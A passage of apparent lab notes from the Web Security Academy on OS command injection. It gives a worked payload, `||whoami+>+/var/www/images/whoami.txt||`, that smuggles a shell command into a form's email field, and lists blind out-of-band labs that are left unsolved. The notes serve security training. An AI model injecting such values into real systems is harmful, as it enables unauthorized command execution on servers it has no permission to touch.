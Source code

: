 Intercepted the request with Burp and modified the `email=` parameter value to include `||whoami+>+/var/www/images/whoami.txt||` which would then make the full request be `csrf=yTn2ONUzTpWqYDLS26Z7FwgfTAVdLMTx&name=test&email=test%40test.com||whoami+>+/var/www/images/whoami.txt||&subject=test&message=test.`

Then navigated to the URL where the file was being hosted: `web-security-academy.net/image?filename=whoami.txt`

### Blind OS command injection with out-of-band interaction

Need Burp Collaborator

### Blind OS command injection with out-of-band data exfiltration

Need Burp Collaborator
